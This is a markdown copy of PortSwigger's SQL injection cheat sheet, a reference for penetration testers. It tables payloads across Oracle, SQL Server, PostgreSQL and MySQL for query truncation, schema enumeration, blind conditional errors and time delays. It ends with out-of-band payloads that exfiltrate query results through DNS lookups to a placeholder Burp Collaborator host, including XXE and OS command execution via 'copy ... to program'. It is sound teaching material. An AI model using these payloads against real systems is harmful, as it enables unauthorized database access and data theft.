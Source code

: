 # SQL injection cheat sheet

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}



### String concatenation <a id="string-concatenation"></a>

 You can concatenate together multiple strings to make a single string.

|  Oracle |  `'foo'||'bar'` |
| :--- | :--- |
|  Microsoft |  `'foo'+'bar'` |
|  PostgreSQL |  `'foo'||'bar'` |
|  MySQL |  `'foo' 'bar'` \[Note the space between the two strings\]  `CONCAT('foo','bar')`  |

### Substring <a id="substring"></a>

 You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

|  Oracle |  `SUBSTR('foobar', 4, 2)` |
| :--- | :--- |
|  Microsoft |  `SUBSTRING('foobar', 4, 2)` |
|  PostgreSQL |  `SUBSTRING('foobar', 4, 2)` |
|  MySQL |  `SUBSTRING('foobar', 4, 2)` |

### Comments <a id="comments"></a>

 You can use comments to truncate a query and remove the portion of the original query that follows your input.

|  Oracle |  `--comment`  |
| :--- | :--- |
|  Microsoft |  `--comment  /*comment*/` |
|  PostgreSQL |  `--comment  /*comment*/` |
|  MySQL |  `#comment`  `-- comment` \[Note the space after the double dash\]  `/*comment*/` |

### Database version <a id="database-version"></a>

 You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|  Oracle |  `SELECT banner FROM v$version  SELECT version FROM v$instance`  |
| :--- | :--- |
|  Microsoft |  `SELECT @@version` |
|  PostgreSQL |  `SELECT version()` |
|  MySQL |  `SELECT @@version` |

### Database contents <a id="database-contents"></a>

 You can list the tables that exist in the database, and the columns that those tables contain.

|  Oracle |  `SELECT * FROM all_tables  SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--- | :--- |
|  Microsoft |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
|  PostgreSQL |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
|  MySQL |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |

### Conditional errors <a id="conditional-errors"></a>

 You can test a single boolean condition and trigger a database error if the condition is true.

|  Oracle |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| :--- | :--- |
|  Microsoft |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
|  PostgreSQL |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
|  MySQL |  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### Batched \(or stacked\) queries <a id="batched-or-stacked-queries"></a>

 You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|  Oracle |  `Does not support batched queries.` |
| :--- | :--- |
|  Microsoft |  `QUERY-1-HERE; QUERY-2-HERE` |
|  PostgreSQL |  `QUERY-1-HERE; QUERY-2-HERE` |
|  MySQL |  `QUERY-1-HERE; QUERY-2-HERE` |

**Note**

 With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays <a id="time-delays"></a>

 You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|  Oracle |  `dbms_pipe.receive_message(('a'),10)` |
| :--- | :--- |
|  Microsoft |  `WAITFOR DELAY '0:0:10'` |
|  PostgreSQL |  `SELECT pg_sleep(10)` |
|  MySQL |  `SELECT sleep(10)` |

### Conditional time delays <a id="conditional-time-delays"></a>

 You can test a single boolean condition and trigger a time delay if the condition is true.

|  Oracle |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--- | :--- |
|  Microsoft |  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
|  PostgreSQL |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
|  MySQL |  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` |

### DNS lookup <a id="dns-lookup"></a>

 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|  Oracle |  The following technique leverages an XML external entity \([XXE](https://portswigger.net/web-security/xxe)\) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`   The following technique works on fully patched Oracle installations, but requires elevated privileges:  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` |
| :--- | :--- |
|  Microsoft |  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'` |
|  PostgreSQL |  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'` |
|  MySQL |  The following techniques work on Windows only:  `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`  `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

### DNS lookup with data exfiltration <a id="dns-lookup-with-data-exfiltration"></a>

 You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|  Oracle |  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` |
| :--- | :--- |
|  Microsoft |  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')` |
|  PostgreSQL |  `create OR replace function f() returns void as $$  declare c text;  declare p text;  begin  SELECT into p (SELECT YOUR-QUERY-HERE);  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';  execute c;  END;  $$ language plpgsql security definer;  SELECT f();` |
|  MySQL |  The following technique works on Windows only:  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

